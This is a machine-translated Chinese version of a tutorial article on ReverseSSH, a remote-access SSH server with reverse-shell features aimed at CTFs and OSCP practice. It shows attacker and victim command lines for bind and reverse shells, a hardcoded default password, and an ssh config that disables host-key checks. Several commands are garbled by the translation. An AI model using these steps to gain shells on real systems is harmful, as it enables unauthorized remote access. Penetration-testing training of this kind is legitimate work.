 # ReverseSSH:静态链接的 SSH 服务器，具有针对 CTF 等的反向 Shell 功能

> 原文：<https://kalilinuxtutorials.com/reversessh/>

[![Privacy Badger : A Browser Extension Automatically Learns To Block Invisible Trackers](img/7822df61f433f0571aa4118a2004a12c.png "Privacy Badger : A Browser Extension Automatically Learns To Block Invisible Trackers")](https://1.bp.blogspot.com/-iDjAdd1KHe8/YSSYKe43V5I/AAAAAAAAKiY/LPeSNS2AYQkc0BOL1u2OP5euIXpU6NNegCLcBGAsYHQ/s569/ReverseSSH-SSH-Server-with-Reverse-Shell-Functionality-370x247%2B%25281%2529.png)

ReverseSSH 是一个静态链接的 SSH 服务器，具有反向连接功能，用于简单而强大的远程访问。在黑盒子挑战，CTFs 或类似的比赛中最有用。

在 OSCP 考试准备期间被广泛使用。

**特性**

用 *netcat* 捕捉一个反向外壳是很酷的，当然，但是谁没有因为肌肉记忆而不小心用键盘中断关闭一个反向外壳呢？除了脆弱之外，这种外壳还经常缺少一些便利功能，比如完全交互式访问、标签补全或历史记录。

相反，你可以简单地将**轻量级 ssh 服务器** ( < 1.5MB) `**reverse-ssh**`部署到目标上，并使用额外的商品，如**文件传输**和**端口转发**！

ReverseSSH 试图在最初立足于目标和完全本地权限提升之间架起一座桥梁。其主要优势如下:

*   **完全交互式外壳访问**(查看下面的 windows 注意事项)
*   **通过 sftp 传输文件**
*   **本地/远程/动态端口转发**
*   **可用作绑定和反向外壳**
*   支持 **Unix** 和 **Windows** 操作系统

**Windows 警告**

windows 上的完全交互式 powershell 依赖于 Windows 伪控制台概念，因此至少需要`**Win10 Build 17763**`。在早期版本中，你仍然可以得到一个交互式的反向外壳，它不能处理虚拟终端代码，比如箭头键或键盘中断。在这种情况下，您必须添加`**cmd**`命令，即`**ssh <OPTIONS> <IP> cmd**`。

您可以通过将 [](https://github.com/PowerShell/Win32-OpenSSH/releases/latest) OpenSSH for windows 中的`**ssh-shellhost.exe**`放在与`**reverse-ssh**`相同的目录中，然后使用标志`**-s ssh-shellhost.exe**`，来实现对旧版本 Windows 的完全交互式 shell 访问。这将通过`**ssh-shellhost.exe**`传输所有流量，它模仿 pty 并转换所有虚拟终端代码，以便 windows 可以理解。

**要求**

简单地执行提供的二进制文件只依赖于 golang 系统的要求。

简而言之:

*   **Linux** :内核版本 2.6.23 及更高版本
*   **Windows**:Windows Server 2008 R2 及更高版本或 Windows 7 及更高版本

编译还需要以下内容:

*   golang 版本 1.15
*   可选的`upx`用于压缩(例如`**apt install upx-ucl**`

**用法**

一旦`**reverse-ssh**`开始运行，您就可以使用任何用户名和默认密码`**letmeinbrudipls**`、ssh 密钥或您在编译期间指定的任何东西进行连接。毕竟，它只是一个 ssh 服务器:

**#全交互 shell 访问
ssh-P
#简单的命令执行
ssh-P whoami
#成熟的文件传输
sftp-P
#在端口 9050 上作为 SOCKS 代理的动态端口转发
ssh -p -D 9050**

**简单绑定外壳场景**

**#受害者
受害者$。/reverse-ssh
#攻击者(默认密码:letmeinbrudipls)
攻击者$ssh -p 31337**

**简单的反向外壳场景**

**#On 攻击者(准备捕捉传入的请求；
#可以省略，如果你已经有一个 ssh 守护进程在运行，例如 OpenSSH)
攻击者$。/reverse-ssh -l :
#On 受害者
受害者$。/reverse-ssh-p
#或者在 ssh 守护进程使用用户/pass 身份验证在端口 22 侦听的情况下
victim$。/reverse-ssh @
#On 攻击者(默认密码:letmeinbrudipls)
攻击者$ssh-p 8888 127 . 0 . 0 . 1
#或使用下面的 ssh 配置
攻击者$ ssh 目标**

最后，它是普通的 ssh，因此您可以通过监听端口 22 的 openssh 守护程序捕获来自受害者机器的远程端口转发调用。只需在前面加上`**<USER>@**`并在要求时提供密码。目前打电话回家只有密码，因为我还不想在那里烤一个私人钥匙…

为了更加方便，将以下内容添加到您的`**~/.ssh/config**`中，将**的 ssh 私钥**复制到`**~/.ssh/**`中，然后简单地调用`**ssh target**`或`**sftp target**`:

**主机目标
主机名 127.0.0.1
端口 8888
标识文件~/。ssh/id _ reverse-ssh
identities only yes
stricthostkey checking no
usernownhostsfile/dev/null**

**完全使用**

**reverseSSH v1.1.0 版权所有(C)2021 Ferdinor[ferdinor@mailbox.org](mailto:ferdinor@mailbox.org)
用法:reverse-ssh【选项】[@]
示例:
Bind:
Reverse-ssh
Reverse-ssh-v-l:4444
Reverse:
Reverse-ssh 192 . 168 . 0 . 1
Reverse-ssh kali @ 192 . 168 . 0 . 1【T11(默认:/bin/bash)
对于 windows，这只能用于提供“ssh-shellshost.exe”的路径，以
增强 Windows10 之前的 shell(例如‘-s ssh-shellhost . exe’如果在同一个目录中)
-l，仅绑定场景:在此地址侦听:port(默认::31337)
-p，仅反向场景:ssh 端口在家中(默认:22)
-b，仅反向场景:可以在前面加上
@以在拨打家庭电话时作为不同于“反向”的用户进行身份验证。
凭证:
接受来自具有以下任一项的任何用户的所有传入连接:
*密码" letmeinbrudipls "
* PubKey " ssh-ed 25519 aaac 3 nza 1 lzdi 1 NTE 5 aaaaaiklbjwr+ueq 0 gojy 4 qwr 2 suw CNC/y 9 ev 9 rdy 3 plo 7 bk/Brudi "**

**构建指令**

确保在匹配版本中安装 golang 等上述要求，并正确设置。之后，可以用`**make**`进行编译，这将在`**bin**`中创建静态二进制文件。使用`**make compressed**`用 upx 打包二进制文件以进一步减小它们的大小。

**make
#或者对另外创建的二进制文件用 upx
打包进行压缩**

在编译时，您还可以指定不同的默认外壳(`**RS_SHELL**`)、个性化密码(`**RS_PASS**`)或授权密钥(`**RS_PUB**`):

**ssh-keygen-t ed 25519-f id _ reverse-ssh
RS _ SHELL = "/bin/sh " RS _ PASS = " secret " RS _ PUB = " $(cat id _ reverse-ssh . PUB)" make compressed**

**构建不同的操作系统或架构**

默认情况下，`**reverse-ssh**`是为您当前的操作系统和架构编译的，也是为 x86 和 x64 中的 linux 和 windows 编译的。要针对其他架构或其他操作系统进行编译，您可以提供与您的目标相匹配的环境变量，例如针对 linux/arm64:

**go arch = arm 64 GOOS = Linux make compressed**

格式为`**OS/arch**`的可用目标列表可通过`**go tool dist list**`获得

[**Download**](https://github.com/Fahrj/reverse-ssh)